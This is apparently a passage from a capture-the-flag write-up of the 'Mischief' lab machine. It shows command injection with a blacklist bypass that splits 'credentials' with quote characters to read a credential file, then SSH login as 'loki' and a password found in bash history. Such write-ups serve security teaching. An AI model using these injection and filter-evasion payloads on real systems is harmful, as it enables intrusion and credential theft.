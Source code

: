 To see if its a permissions issue on the file we can use the `stat` command:
```
stat /home/loki/credentials
```

This also does not work, what happens if we try a different file in the same directory (that we should not have permissions to read):
```
stat /home/loki/user.txt
File: /home/loki/user.txt
  Size: 33        	Blocks: 8          IO Block: 4096   regular file
Device: 802h/2050d	Inode: 662102      Links: 1
Access: (0400/-r--------)  Uid: ( 1000/    loki)   Gid: ( 1004/    loki)
Access: 2018-12-15 04:05:04.802723847 +0000
Modify: 2018-05-17 18:52:25.203970134 +0000
Change: 2018-05-17 20:29:43.611852308 +0000
 Birth: -
```

We can see that `stat` should work even if we have no permissions on the file. So the error was not due to the fact that we don't have permissions on the credentials file. This leads us to suspect that there is a blacklist on the words allowed through the web application. Luckily for us bash will ignore certain characters when running commands. We are able to split the word with `''` for bash to do nothing, but the web application might be dumb enough to treat them as part of the string when performing its string compare against the blacklist:
```
command=cat /home/loki/cred''ent''ials; ping -c 1 127.0.0.1
```

Initially this does not seem to work, this could be because the blacklist contains portions of the words as well like `cred` etc. but if we expand it to separate every letter we get a result:
![223707216.png]({{site.baseurl}}/Images/Mischief/223707216.png)


As we read these credentials from loki's home directory and we remember from our initial nmap scan that the box has SSH open, we assume they can be used to SSH into the box as loki.
```
ssh loki@10.10.10.92
loki@10.10.10.92's password: 
...
loki@Mischief:~$ cat user.txt
bf58078e7b802c[redacted]
```

We read the `user.txt` and now it's time to move on to root.

Now that we are on the box lets do some basic enumeration. We can see that we have some bash history:
```
loki@Mischief:~$ cat .bash_history
python -m SimpleHTTPAuthServer loki:lokipasswordmischieftrickery
exit
free -mt
ifconfig
cd /etc/
sudo su
su
exit
su root
ls -la
sudo -l
ifconfig
id
cat .bash_history 
nano .bash_history 
exit
```
